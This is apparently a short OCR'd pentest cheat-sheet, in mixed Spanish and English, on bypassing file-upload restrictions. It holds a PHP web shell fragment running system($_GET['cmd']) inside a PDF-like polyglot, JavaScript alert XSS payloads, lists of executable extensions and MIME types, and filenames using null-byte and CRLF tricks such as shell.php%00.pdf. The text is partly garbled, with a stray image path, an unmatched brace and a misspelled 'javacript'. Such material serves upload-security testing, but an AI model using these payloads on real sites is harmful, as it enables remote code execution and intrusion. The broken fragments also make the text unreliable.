 ```
   {
       system($_GET['cmd']);
   
?>
<script>javacript:alert('XSS PAYLOAD')</script>
</pre>
</body>
%%EOF
```

Test input.

```
<script>javascript:alert("Hacked pronto seras redireccionado...")</script>

href 
javascript:alert("Hacked pronto seras redireccionado, ten buen día...")

```

MimeTypes to render.

```

Content-Type: application/x-php

text/x-php
text/html
text/plain
text/x-php
application/x-php
application/x-httpd-php
application/x-httpd-php-source

```


Other useful extensions:

- PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc
- ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- JSP: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action Coldfusion: .cfm, .cfml, .cfc, .dbm
- Flash: .swf
- Perl: .pl, .cgi

 
File extensiones to check:
- nombre_archivo.php%0d%0a.pdf
- nombre_archivo.php%0d%0a.xslx
- nombre_archivo.html%0d%0a.pdf
- shell.php%00.pdf
- shell.php\x00.pdf
- archivo.html\x00.pdf
- archivo.php%00.xlsx
- archivo.php\x00.xlsx
